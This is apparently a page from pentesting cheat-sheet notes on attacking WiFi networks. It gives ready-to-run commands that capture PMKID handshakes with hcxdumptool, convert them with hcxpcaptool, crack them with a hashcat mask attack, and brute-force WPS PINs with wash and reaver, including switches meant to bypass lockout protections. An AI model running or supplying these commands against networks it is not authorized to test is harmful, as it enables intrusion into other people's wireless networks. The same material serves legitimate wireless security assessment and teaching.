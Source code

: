 #### If an AP recieves our association request packet and supports sending

sudo hcxdumptool -i wlan0mon -o outfile.pcapng --enable_status=1

#### Then convert the captured data to a suitable format for hashcat

#### -E retrieve possible passwords from WiFi-traffic (additional, this list will include ESSIDs)

#### -I retrieve identities from WiFi-traffic

#### -U retrieve usernames from WiFi-traffic

sudo hcxpcaptool -E essidlist -I identitylist -U usernamelist -z test.16800 test.pcapng

#### Then, you can use hashcat to crack it (see hashcat section)

./hashcat -m 16800 test.16800 -a 3 -w 3 '?l?l?l?l?l?lt!'

#### Attacking WPS (WiFi Protected Setup)

#### Reaver Attack

#### Online bruteforcing of the WPS 8-digits PIN

#### Kinda old and can be obsolete nowadays, but still usable

#### Reaver integrated dumping tool (can also airodump-ng)

#### Wash gives information about WPS being locked or not

#### Locked WPS will have less success chances

wash -i wlan0mon

####\ Launching reaver
reaver -i wlan0mon -c 6 -b 00:23:69:48:33:95 -vv

#### Some manufacturers have implemented protections

#### You can try different switches to bypass

#### -L = Ignore locked state

#### -N = Don't send NACK packets when errors are detected

#### -d = delay X seconds between PIN attempts

#### -T = set timeout period to X second (.5 means half second)
